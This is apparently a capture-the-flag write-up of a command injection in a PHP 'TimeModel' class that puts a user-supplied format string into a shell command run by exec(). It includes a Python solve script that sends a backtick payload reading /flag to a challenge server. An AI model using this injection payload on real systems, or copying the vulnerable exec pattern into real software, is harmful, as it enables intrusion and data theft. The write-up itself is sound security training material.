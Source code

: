 ```yaml
---
ai_date: 2025-04-27 05:16:41
ai_summary: Command injection vulnerability in TimeModel through format string
ai_tags:
  - cmd-exec
  - xss
  - rce
created: 2024-07-16T22:50
points: 825
solves: 847
updated: 2025-07-14T09:46
---
```


## Analysis

`TimeModel` is the most obvious attack surface, it runs user supplied format in `exec`.

```php [TimeModel.php]
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

## Solve Script

```python
import requests
import re
payload = "'`cat /flag`'"
r = requests.get("http://94.237.59.199:39808/?format="+payload)
print(re.search("HTB{.*}", r.text).group(0))
# HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3_33e95b9ffd98a08268d47ea25f327da1}
```

### Explanation

When we supply the following to format, we are able to embed a command execution that gives us the flag.

```
'`cat /flag`'
```

```php
$this->command = "date '+" . $format . "' 2>&1";
$this->command = "date '+'`cat /flag`'' 2>&1"; # will become
```

Not sure if existence of special characters might mess up the flag.